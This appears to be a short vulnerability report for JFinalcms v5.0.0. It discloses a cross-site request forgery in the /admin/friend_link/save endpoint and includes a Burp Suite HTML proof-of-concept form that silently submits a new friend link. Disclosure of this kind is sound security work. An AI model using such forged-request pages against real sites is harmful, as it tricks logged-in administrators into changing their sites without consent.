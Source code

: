 ![图片](https://github.com/cui2shark/cms/assets/52313275/9ab7bced-3553-4e9a-b86e-9a0176ef7bee)target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/friend_link/save

![图片](https://github.com/cui2shark/cms/assets/52313275/9f5cbaca-0013-4453-8c98-8eb250f8ba98)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/02ce7b20-04af-45d9-8096-507426d6fae2)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/friend_link/save" method="POST">
      <input type="hidden" name="gid" value="" />
      <input type="hidden" name="name" value="cs" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="cs" />
      <input type="hidden" name="sort" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/c56cb37e-2dc1-4a5a-b966-575fc1436984)
